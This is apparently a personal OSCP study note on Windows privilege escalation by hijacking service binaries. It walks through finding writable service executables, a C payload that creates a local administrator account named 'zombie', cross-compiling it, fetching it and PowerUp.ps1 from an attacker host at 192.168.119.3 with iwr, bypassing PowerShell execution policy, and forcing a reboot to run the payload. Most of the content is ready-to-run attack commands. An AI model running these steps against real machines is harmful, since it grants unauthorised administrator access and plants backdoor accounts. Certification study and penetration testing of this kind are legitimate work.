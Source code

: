 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/5-service-hijacking/","updated":"2024-01-05T11:35:06.896+01:00"}
---
```


- A Windows Service is a long-running background executable or application managed by the Service Control Manager.
- They are similar to daemons on Unix
- Windows Services can be managed by the Services snap-in, PowerShell, or sc.exe.
- Services are run by LocalSystem (NT AUTHORITY, SYSTEM, BUILTIN), Network Service, and Local Service user accounts.
- Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

--------
### Writable Files + Directories

Writable files from root directory:
```
cmd /c 'dir C:\ /a-r-d /s /b'
```

Writable directories from root directory:
```
cmd /c 'dir C:\ /ad-r /s /b'
```

-------------
### Manual Service Binary Hijacking
- Each Windows service has an associated binary file.
- They are executed when the service is started or transitioned into a running state.
- An unprivileged user can tamper with misconfigured services being run by higher authority to privesc.
- Look for services with binaries outside of the System32 folder, since they are probably installed and configured by the user manually.

1. Enumerate running processes to identify any to abuse:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Alt. Get-Service ... Get-WmiObject ... services.msc
```
2. Enumerate permissions for the identified services:
```powershell
icacls "C:\xampp\apache\bin\httpd.exe"

Alt. Get-ACL

Permissions:
F: Full access
M: Modify access
RX: Read and execute access
R: Read-only access
W: Write-only access
```
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user zombie password123! /add");
  i = system ("net localgroup administrators zombie /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Try to restart the service manually (if permissioned):
```powershell
net stop <servicename>
net start <servicename>

#Or run:
Restart-Service <servicename>

#Service name is not the binary file
```
7. If not possible check if it starts again on reboot:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<servicename>'}
```
8. Check if is privileged to restart system (the state should not matter):
```powershell
whoami /priv
```
9. Issue a system reboot using:
```powershell
shutdown /r /t 0
```
10. Remember to repair the binary after escalation!

------------
### Automatic Service Hijacking with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```powershell
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check modifiable services identified:
```powershell
Get-ModifiableServiceFile
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Install-ServiceBinary -Name 'mysql'
```
7. Win!
